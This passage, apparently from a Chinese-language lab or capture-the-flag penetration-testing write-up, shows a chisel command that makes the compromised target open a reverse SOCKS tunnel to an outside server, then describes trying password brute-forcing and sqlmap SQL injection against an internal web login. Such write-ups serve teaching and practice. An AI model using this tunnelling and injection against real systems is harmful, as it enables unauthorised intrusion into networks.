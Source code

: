 靶机作为客户端

```plain
./chisel client 119.3.215.198:7000 R:0.0.0.0:7001:socks
```

[![](assets/1705540441-1b2665a22b661d87ed1459a2aa5435ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116175156-e27a5518-b454-1.png)

## 攻击域成员一(Web服务)

我们发现`172.22.6.38`具备Web服务，设置好代理好访问此网站

[![](assets/1705540441-4120853feecf8665f0bd220a19c10d9b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116175207-e8c4032e-b454-1.png)

发现只有一个登录接口，尝试密码爆破后无果，因此使用bp抓包放入sqlmap尝试SQL注入，burp需要在用户配置处设置下代理
